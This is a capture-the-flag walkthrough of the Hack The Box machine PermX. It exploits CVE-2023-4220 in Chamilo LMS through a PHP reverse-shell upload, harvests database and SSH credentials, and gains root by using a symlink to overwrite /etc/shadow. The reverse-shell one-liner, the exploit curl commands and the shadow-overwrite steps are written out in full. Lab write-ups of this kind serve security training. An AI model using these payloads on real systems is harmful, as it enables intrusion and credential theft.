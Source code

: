 ```yaml
---
title:  HTB - PermX
date: 2023-06-07 12:17:34 -0400
categories: [hackthebox , PermX]
tags: [HackTheBox,Chamilo LMS,CVE-2023-4220,mysql,symlink,curl ]
image:
  path: /assets/img/post/permx/PermX.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - PermX.
---
```


## Box Info

| Name                  | Bizness          | 
| :-------------------- | ---------------: |
| Release Date          | 20 Jun, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## Enumeration

### Nmap

![Image](/assets/img/post/permx/image.png)

#### whatweb:

![Image](/assets/img/post/permx/2.png)

#### Wappalyzer

![Image](/assets/img/post/permx/4.png)

### Web

![Image](/assets/img/post/permx/3.png)

#### Brute Forcing directory

I use

```bash
dirsearch -u http://permx.htb/
```

 but i dont find anything interesting, So i use the Scan for Subdomain

#### SubDomain

```bash
wfuzz -c -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt --hc 400,403,404,302 -H "Host: FUZZ.permx.htb" -u http://permx.htb -t 100
```

![Image](/assets/img/post/permx/5.png)

Search for chamilo in google.

### Chamilo LMS - CVE-2023-4220

![Image](/assets/img/post/permx/6.png)

RCE:
```bash
echo '<?php system("bash -c 'bash -i >& /dev/tcp/10.10.10.13/9001 0>&'"); ?>' > rce.php
```

```bash
curl -F 'bigUploadFile=@rce.php' 'http://<chamilo>/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
`The file has successfully been uploaded.`
```

```bash
curl 'http://<chamilo>/main/inc/lib/javascript/bigupload/files/rce.php'
`uid=33(www-data) gid=33(www-data) groups=33(www-data)`
```

![Image](/assets/img/post/permx/7.png)

We go to open the file through web.

![Image](/assets/img/post/permx/8.png)

Execute the file .php `http://lms.permx.htb//main/inc/lib/javascript/bigupload/files/rce.php` with `lvwrap nc -lvnp 7777` listening for get the reverse shell

![Image](/assets/img/post/permx/9.png)

taadaaa... Well, we login as `www-data` and we go to enumerate... 
I found in config folder a file `configuration.php` and show it us a user and password.

Till now we have one user:`chamilo` and password:`03f6lY3uXAP2...`.

![Image](/assets/img/post/permx/10.png)

`netstat -nlp` or `netstat -ano` and we see one port strange and is port 3306 it is open for the database.

![Image](/assets/img/post/permx/11.png)

Use the mysql inside in the victim machine.

```bash
mysql -uchamilo -p and the password 03F6lY3uXAP2bkW8
```
![Image](/assets/img/post/permx/12.png)

```text
show databases;
use chamilo;
describe user;
select user_id,username,firstname,lastname,password,salt from user;
```

![Image](/assets/img/post/permx/13.png)

We login with ssh `mtz@permx.htb` and password `03F6lY3uXAP2bkW8`

![Image](/assets/img/post/permx/14.png)

`sudo -l`

![Image](/assets/img/post/permx/15.png)

## Symlink (Symbolic Link Attack)

The directory `/etc/init.d`{: .filepath} is home to **scripts** for System V init (SysVinit), the **classic Linux service management system**. It includes scripts to `start`, `stop`, `restart`, and sometimes `reload` services. These can be executed directly or through symbolic links found in `/etc/rc?.d/`{: .filepath}. An alternative path in Redhat systems is `/etc/rc.d/init.d`{: .filepath}.

Its main function is to change all file permissions, but it must be in the `/home/mtz` directory.

![Image](/assets/img/post/permx/16.png)

[Symlink Español](https://www.freecodecamp.org/espanol/news/tutorial-de-enlace-simbolico-en-linux-como-crear-y-remover-un-enlace-simbolico/)
[Symlink Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload#symlink)

```bash
link soft / to cc
ln -s / cc
```

Create a folder that points to the root path with Symlink with the -s (soft) option to locate ourselves inside it and make changes to `/etc/shadow`{: .filepath} (root password) with a password that we create ourselves (cccc).

![Image](/assets/img/post/permx/17.png)

The `/etc/shadow`{: .filepath} storage the password of root

```bash
sudo /opt/acl.sh mtz rwx /home/mtz/etc/shadow (execute the script for change the permissions)
```

![Image](/assets/img/post/permx/18.png)

Generated a password for remplace the root password in `/etc/shadow`{: .filepath}

```bash
openssl passwd -6 cccc
```

![Image](/assets/img/post/permx/19.png)

and copy and paste en the file `"shadow"`

```bash
echo 'root: {password generate}:19871:0:99999:7:::' > /home/mtz/cc/etc/shadow
```
Login as root with password cccc

![Image](/assets/img/post/permx/20.png)

`Root`